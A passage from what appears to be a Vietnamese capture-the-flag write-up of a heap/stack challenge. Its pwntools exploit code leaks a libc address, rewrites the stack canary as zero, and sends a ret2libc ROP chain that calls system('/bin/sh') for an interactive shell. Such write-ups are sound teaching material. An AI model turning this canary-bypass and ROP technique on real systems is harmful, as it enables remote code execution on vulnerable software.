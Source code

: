 ```python
log.info('Leak: 0x%x', leak)
log.info('Libc base: 0x%x', libc.address)
```

![image](https://user-images.githubusercontent.com/57558487/196613308-b0d90930-8efc-4c4c-b61c-2e6b8102353a.png)

Vậy mình đã có thể leak được địa chỉ libc thành công, mình chỉ cần một bước cuối nữa là bypass `canary` để có thể tấn công, không thể leak được `canary` vì `printf` sẽ dừng lại tại NULL byte (offset 0x46b0), vì thế mình tiến hành đè qua `canary` bằng 0 để bypass.

Rứt kinh nghiệm, trong quá trình đè mình sẽ cố gắng ít thay đổi nhất có thể để chương trình không bị crash. May mắn là tất cả các giá trị từ mảng đến `canary` đều có thể tính toán tương đổi dựa vào giá trị biến `leak` ta có được.

```python
create(0, 0x4770)

payload = b'A' * 0x46b0 + p64(leak)

val = [0x7dc0, 0, -0x5c0c0, -0x5bac0, -0x5b1c0] 
val2 = [-0x21ce40, -0x21c420, -0x21ce40, 0, 0]

for i in val:
	if i:
		payload += p64(leak + i)
	else:
		payload += p64(0)

for i in range(12):
	payload += p64(0)

for i in val2:
	if i:
		payload += p64(leak + i)
	else:
		payload += p64(0)

payload += p64(0) # overwrite canary

assert(len(payload) == 0x4770)
assert(b'\x20' not in payload)
assert(b'\n' not in payload)

edit(0, payload)
```

Okay, tiếp theo là tạo payload ROP bằng các gadget trong `libc` do đã tính toán được libc address

```python
rop = ROP(libc)

pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
ret = rop.find_gadget(['ret']).address

payload = b'1' + b'\x00' * 7 + p64(0) * 4 + p64(ret)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.symbols['system'])
s.sendlineafter(b'Your choice : ', payload)

s.interactive()
```

